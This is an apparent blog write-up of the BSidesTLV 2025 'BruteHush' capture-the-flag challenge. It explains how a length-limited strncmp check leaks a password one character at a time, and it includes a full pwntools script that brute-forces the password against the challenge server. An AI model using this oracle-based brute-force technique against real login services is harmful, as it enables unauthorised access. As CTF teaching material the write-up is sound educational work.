

+++
date = '2025-12-09T19:02:00+02:00'
draft = false
title = 'Bsidestlv25 Brutehush'
+++

# BruteHush bsidestlv25
### category : pwn
### difficulty : easy
### url : https://ctf25.bsidestlv.com/challenges#BruteHush-23


overview :
we receieve a source code of the executable with nc conneciton to give our input
it seems like we have to get the correct password in order to solve it lets dig in with binja



i renamed the variables of password and input so we'll have an easier time understanding it.
we can see that we get different type of errors . in the highlighted green area we can see that it performs 
```c
strncmp()
```
only on the size of our input therefore it checks the input 1 by 1 and if we get a correct letter we get the "hmm..." error message
the idea here is to bruteforce out way just like as the name suggests
i use this python scrip:

```python

from pwn import *
import string

# Connect to the challenge
r = remote('0.cloud.chals.io', 10188)

r.recvuntil(b"Enter password: ")

password = ""

print("[*] Brute-forcing...")

while True:
    for char in string.printable:
        if char == '\n': continue

        # Send guess
        attempt = password + char
        r.sendline(attempt.encode())

        # Read response
        response = r.recvline().decode()

        # Case 1: Character is correct (keep going)
        if "Hmm..." in response:
            password += char
            print(f"Found: {password}")
            r.recvuntil(b"Enter password: ") # Clear prompt for next loop
            break
        
        # Case 2: We won
        elif "Wait" in response:
            print(f"PASSWORD: {attempt}")
            print(r.recvall().decode()) # Get the flag
            exit()
        
        # Case 3: Wrong character (loop continues)
        else:
            r.recvuntil(b"Enter password: ")


```
and we got the flag

BSidesTLV2025{******}
